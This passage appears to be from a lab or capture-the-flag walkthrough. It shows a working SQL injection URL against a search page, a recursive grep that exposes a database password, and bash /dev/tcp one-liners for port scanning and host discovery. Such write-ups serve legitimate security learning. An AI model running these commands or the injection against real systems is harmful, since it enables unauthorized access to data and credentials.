 next up is that i found that the search services is vulnerable to sql injection




![](https://i.imgur.com/epLh0IV.png)


it dumped all tiers especially a premium tier

![](https://i.imgur.com/z76Uczt.png)


the url including injection is as follows

```
http://45.84.138.178/cld-mgmt/search.php?srv=vps'OR+1=1-- -
```



```bash
grep -i -R pass .
-i: incase sensitive
-R recursive getting file by file in dir
.: current  dir
```



![](https://i.imgur.com/GRD3Ojl.png)

![](https://i.imgur.com/A3ZJv9B.png)


i found password `finalfantasy`

![](https://i.imgur.com/PEMCJEK.png)


![](https://i.imgur.com/jPDJpCC.png)


looks like this password is for the database, lets have a look

```bash
for i in {1..65535}; do (< "/dev/tcp/127.0.0.1/$i") &>/dev/null && { echo; echo "[+] Open Port at: $i"; }  || printf "."; done; echo
```

bash port scan 

and this one is bash host discovery

```bash
for i in {1..255}; do (>/dev/tcp/172.17.0.$i/80) 2>/dev/null && echo "172.17.0.$i is up"; done
```

![](https://i.imgur.com/Kd9tcLw.png)

![](https://i.imgur.com/2vCMqVz.png)
